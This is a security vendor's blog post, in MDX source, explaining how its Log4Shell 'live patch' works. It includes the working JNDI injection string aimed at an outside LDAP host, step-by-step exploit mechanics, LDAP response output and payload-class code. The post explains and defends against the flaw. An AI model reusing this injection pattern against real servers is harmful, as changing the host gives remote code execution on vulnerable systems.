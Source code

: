 ```yaml
---
title: "Understanding Log4Shell via Exploitation and Live Patching (CVE-2021-44228 + CVE-2021-45046)"
description: Let's dig into how it's possible to send a string to your server and have it patch a vulnerability.
slug: log4shell-live-patch-technical
date: 2021-12-16
image: https://www.lunasec.io/docs/img/log4shell-logo.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
tags: [zero-day, security, data-security, guides, log4shell]
authors: [free, chris]

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

![Log4Shell Logo](https://www.lunasec.io/docs/img/log4shell-logo.png)

## Technical Analysis: Understanding the Live Patch

The other day we published a Log4Shell payload that, when used to exploit a server, would patch the server against
future exploitation from Log4Shell. You can read through our post explaining _why_ we built it
[here](https://www.lunasec.io/docs/blog/log4shell-live-patch/).

It looks like this:
```
${jndi:ldap://patch.log4shell.com:1389/a}
```

In this post, we're going to dissect what's going on with this live patch to explain how it works. If you're curious to
dig into this more, you can view the code on
[GitHub](https://github.com/lunasec-io/lunasec/tree/master/tools/log4shell) too.

<!--truncate-->

## The Payload Schema

A simple Log4Shell attack follows a specific structure. We're going to break down our patch payload (above) into its
composite parts:


- `${`: The open tag for the log4j "Message Lookup".
- `jndi:`: Specifying to log4j to use the "JNDI Manager" to resolve the message.
- `ldap://`: Tells the JNDI request to be resolved using the LDAP protocol.
- `patch.log4shell.com`: The host to resolve via DNS to send the payload towards.
- `:1389`: The port to send the request to.
- `/a`: The path to send to the server with the request.
- `}`: The closing tag for the original log4j "Message Lookup".

_Note: There are more advanced payloads, but they all distill down to something similar to this._

## High-Level Exploit Steps

To perform the exploit, the following steps are completed in this sequence:

1. A log is passed to log4j via `log.info("${jndi:ldap://patch.log4shell.com:1389/a}")`.
2. A "Message Lookup" is parsed by log4j to be interpreted.
3. The JNDI Manager is invoked and passed the LDAP URI.
4. The LDAP Server is queried via the URI.
5. The response is downloaded and passed to the JNDI Manager.
6. The JNDI Manager loads the response data as Java bytecode into the Java process.
7. When loading the Java code, the `getObjectInstance` method is called since the loaded class is an `ObjectFactory`
   (alternatively, the payload code can be wrapped in a static context with `static {}` which will be triggered upon loading the class).
8. At this point, an attacker can perform whatever logic they'd like because they have full code execution.

Here is a diagram with roughly the same information, but explained visually (with mitigation info).

<a href="https://www.lunasec.io/docs/img/log4j-attack-and-mitigations.png" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/log4j-attack-and-mitigations.png" alt="log4shell 0day diagram" />
</a>

## The LDAP Lookup

Once log4j has parsed the message, the LDAP request is the first leg of the exploit that an attacker must implement in
order to attain RCE.

We're going to use the CLI tool `ldapsearch` to allow us to emulate the request being made from within log4j to the
LDAP server. With this tool, we can query the live patch server for its entries:

```shell
~ ldapsearch -x -H ldap://patch.log4shell.com:1389
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

#
dn:: Y249bG9nNHNoZWxsLWhvdHBhdGNoLCA=
cn: log4shell-hotpatch
javaClassName: attempting to patch Log4Shell vulnerability with payload hosted
  on: http://patch.log4shell.com:80/Log4ShellHotpatch.class
javaCodeBase: http://patch.log4shell.com:80/
objectclass: javaNamingReference
javaFactory: Log4ShellHotpatch

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

The most important parts of this response data are the `javaCodeBase` and the `javaFactory` fields. These tell the JNDI
function where to locate the code (`http://patch.log4shell.com:80/`), and what remote class to resolve
(`Log4ShellHotpatch`). In Log4j versions `>= 2.15.0`, `javaCodeBase` will only be resolved if it is [`localhost` or a
whitelisted host](https://github.com/apache/logging-log4j2/pull/608), meaning this payload will not execute.

### Other Response Values

For the most part, the other response values exist only to pass the LDAP schema validation step, and aren't crucial for
the exploit to succeed.

For example, the `javaClassName` contains a value which will be logged out when running the live patch on a system. This
log message will indicate that the second stage Java class file is being downloaded:
`http://patch.log4shell.com:80/Log4ShellHotpatch.class`.

We have only added this for debugging to understand if this payload was ever actually executed, but it could be
substituted with any string value.

## The JNDI Request

With the information now available to tell JNDI where to load the exploit code from, the next request in the exploit
chain is fired off. The response from this request contains Java bytecode which enables the actual RCE
functionality of this vulnerability.

Java bytecode is easily reversible, and we are not making any attempt to [obfuscate the payload](https://owasp.org/www-community/controls/Bytecode_obfuscation).
Using a tool such as [jdec.app](https://jdec.app/), you can simply download the payload and then reverse engineer it to understand
exactly what code will be run when the exploit is triggered.

![Log4Shell live patch payload decompiled](https://www.lunasec.io/docs/img/log4shell-live-patch-decompilation.png)

You can alternatively just browse the payload's source on (
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/tools/log4shell/payloads/hotpatch-payload/src/main/java/Log4ShellHotpatch.java)
):

```ts
/* ... imports redacted for brevity ... */

public class Log4ShellHotpatch implements ObjectFactory {
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        log("Attempting to apply Log4Shell hotpatch to service...");
        try {
            // reconfiguring log4j
            boolean success = removeJndiFromLog4jContextLookup();
            if (success) {
                return "Successfully hotpatched Log4Shell vulnerability.";
            }
        } catch (Exception e) {
            error(e.toString());
            e.printStackTrace();
        }
        return "Unable to hotpatch Log4Shell vulnerability.";
    }

    static boolean removeJndiFromLog4jContextLookup() {
      /* ... trimmed code, see GitHub for full example ... */
    }

    /* ... other methods trimmed too ... */
}
```

## The Java Exploit Code

Upon loading the second stage Java class file into the program, the class `Log4ShellHotpatch` will start performing the
in memory patch when the `getObjectInstance()` function is invoked during object creation by JNDI.

The patch consists of the following steps:

1. Accesses the current thread's `ClassLoader` and locates the classes for:
  - `org.apache.logging.log4j.core.config.Configurator`.
  - `org.apache.logging.log4j.core.impl.Log4jContextFactory`.
3. Calls `ContextSelector ctxSelector = Log4jContextFactory.getSelector(Configurator.getFactory());`.
4. Grabs all `LoggerContext` objects with `ctxSelector.getLoggerContexts()`.
5. Goes through each `LoggerContext` and removes the `jndi` entry in each object's lookup map.

The last step of the patch is what prevents further resolution of `jndi` values during log4j logging calls.

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

If this post helped you, please share it with others to help them too.


<ContactForm/>

## More Information

We have published a series of posts about Log4Shell on our blog that you might be interested in:
- **[Part 1: Log4Shell Live Patch (Background Context)](https://www.lunasec.io/docs/blog/log4shell-live-patch/)**
- **[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)**
- **[Original Log4Shell Announcement](https://www.lunasec.io/docs/blog/log4j-zero-day/)**
- **[Explanation of the 2nd Log4j CVE](https://www.lunasec.io/docs/blog/log4j-zero-day-update-on-cve-2021-45046/)**

### Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-15-log4shell-live-patch.mdx).
:::

